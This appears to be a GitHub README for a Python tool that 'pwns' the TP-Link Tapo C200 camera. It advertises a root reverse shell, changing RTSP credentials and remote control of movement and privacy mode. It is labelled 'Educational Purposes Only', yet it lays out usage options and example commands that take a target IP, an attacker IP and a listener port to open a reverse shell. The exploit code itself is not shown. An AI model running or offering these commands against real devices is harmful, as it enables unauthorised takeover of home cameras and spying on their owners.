

# Tapo-C200-Control

### Educational Purposes Only

Python script to pwn the TL-Link Tapo c200 camera and get full access.

## Features

* Root shell access
* Changing RTSP video stream credentials
* Controlling the movement
* Enabling/Disabling privacy mode
* Saving and restoring presets
* Resetting position
* Rebooting 

## Usage

```
Tp-Link Tapo C200 Universal Control Script

options:
  -h, --help            show help message

Required Arguments:
  -t, --target
        Tapo C200 IP address
  -a, --attacker
        Your IP address
  -m, --mode {shell,rtsp,control}
        Operation mode:
            - shell    Get a reverse shell
            - rtsp     Change RTSP credentials
            - control  Control camera

Optional Arguments:
  -p, --revshell-port
        Port to listen for reverse shell on
  -v, --verbose         Enable debugging
```

## Screenshots

### Usage



### Shell


### Rtsp


### Control


## Examples

```bash
python3 tapocontrol.py -t 192.168.191.1 \
                       -a 192.168.191.101 \
                       -m shell \
                       -p 12345
```

```bash
python3 tapocontrol.py -t 192.168.191.1 \
                       -a 192.168.191.101 \
                       -m control \
                       -v
```
